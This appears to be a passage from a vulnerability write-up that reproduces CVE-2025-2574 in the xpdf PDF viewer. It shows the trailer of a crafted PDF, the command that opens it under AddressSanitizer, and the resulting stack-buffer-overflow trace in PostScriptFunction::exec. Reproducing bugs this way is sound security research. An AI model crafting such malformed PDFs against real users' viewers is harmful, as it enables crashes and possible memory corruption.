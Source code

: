 ```
endobj
trailer
<< /Size 7 /Root 1 0 R >>
%%EOF
```

And try to open it with `bin/xpdf` to get a nice crash report:
```
> ix run bin/xpdf --opengl=mesa/radv --vulkan=mesa/radv --sanitize=address -- xpdf xpdf_CVE-2025-2574.pdf
TOUCH /ix/store/rKMJ0W8qTWG2owpaOdYtM7-rlm-ephemeral/touch
Config Error: No paper information available - using defaults
Config Error: No display font for 'Courier'
Config Error: No display font for 'Courier-Bold'
Config Error: No display font for 'Courier-BoldOblique'
Config Error: No display font for 'Courier-Oblique'
Config Error: No display font for 'Helvetica'
Config Error: No display font for 'Helvetica-Bold'
Config Error: No display font for 'Helvetica-BoldOblique'
Config Error: No display font for 'Helvetica-Oblique'
Config Error: No display font for 'Symbol'
Config Error: No display font for 'Times-Bold'
Config Error: No display font for 'Times-BoldItalic'
Config Error: No display font for 'Times-Italic'
Config Error: No display font for 'Times-Roman'
Config Error: No display font for 'ZapfDingbats'
=================================================================
==2234223==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7b206f240f40 at pc 0x000002a6b27a bp 0x7b206fdd3cf0 sp 0x7b206fdd3ce8
READ of size 8 at 0x7b206f240f40 thread T4
    #0 0x000002a6b279 in PostScriptFunction::exec(double*, int) (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2a6b279)
    #1 0x000002a6900b in PostScriptFunction::transform(double*, double*) (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2a6900b)
    #2 0x000002a67643 in PostScriptFunction::PostScriptFunction(Object*, Dict*) (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2a67643)
    #3 0x000002a6035e in Function::parse(Object*, int, int, int) (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2a6035e)
    #4 0x000002ac22f6 in GfxFunctionShading::parse(Dict*) (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2ac22f6)
    #5 0x000002ac0445 in GfxShading::parse(Object*) (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2ac0445)
    #6 0x000002a81057 in GfxResources::lookupShading(char const*) (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2a81057)
    #7 0x000002a7ee3c in Gfx::opShFill(Object*, int) (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2a7ee3c)
    #8 0x000002a840e1 in Gfx::execOp(Object*, Object*, int) (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2a840e1)
    #9 0x000002a8331c in Gfx::go(int) (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2a8331c)
    #10 0x000002a825d8 in Gfx::display(Object*, int) (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2a825d8)
    #11 0x000002b5a043 in Page::displaySlice(OutputDev*, double, double, int, int, int, int, int, int, int, int, int (*)(void*), void*) (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2b5a043)
    #12 0x000002b64aef in PDFDoc::displayPageSlice(OutputDev*, int, double, double, int, int, int, int, int, int, int, int, int (*)(void*), void*) (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2b64aef)
    #13 0x000002c22656 in TileCache::rasterizeTile(CachedTileDesc*) (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2c22656)
    #14 0x000002c22251 in TileCacheThreadPool::worker() (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2c22251)
    #15 0x000002c21ec8 in TileCacheThreadPool::threadFunc(void*) (/ix/store/9tJIZuirWt11B1gevHh8m1-bin-xpdf-viewer/bin/xpdf+0x2c21ec8)
```